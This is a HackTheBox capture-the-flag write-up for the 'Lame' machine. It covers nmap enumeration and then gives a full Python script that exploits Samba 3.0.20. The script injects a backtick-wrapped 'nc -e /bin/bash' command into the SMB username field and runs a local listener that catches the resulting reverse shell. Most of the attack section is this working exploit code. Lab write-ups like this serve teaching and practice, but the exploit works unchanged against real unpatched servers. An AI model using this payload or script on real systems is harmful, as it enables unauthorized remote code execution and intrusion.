

Lame is a easy box from hackthebox. The exploration o Samba 3.0.20 I did totally manually with a python script. It's on the body of the post.

Hope you enjoy this write-up!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.3
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 445

```
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

We see on port 445 the smb version 3.0.20, and search for an exploit for this match version and we found one which works just on metasploit


Which is this [ExploitDB](https://www.exploit-db.com/exploits/16320)

So, I hate to use metasploit, I'll exploit this vuln manually.

# Auto Reverse Shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# HackTheBox - Lame - Auto Reverse Shell

import argparse
import sys
from smb.SMBConnection import SMBConnection
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to trigger it
def TriggerPayload(rhost,rport,lhost,lport):
    print("[+] Let's trigger the payload !! [+]")
    payload = "nc -e /bin/bash %s %s" %(lhost,lport)
    user = "`" + payload + "`"
    conn = SMBConnection(user, "0x4rt3mis", "0x4rt3mis", "0x4rt3mis", use_ntlm_v2=False)
    print("[+] Sending it to the server ! [+]")
    print("[+] Succeess !! [+]")
    conn.connect(rhost, int(rport))

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    parser.add_argument('-rp', '--remoteport', help='Target port', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport
    rport = args.remoteport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the reverse
    TriggerPayload(rhost,rport,lhost,lport)

if __name__ == '__main__':
    main()
```

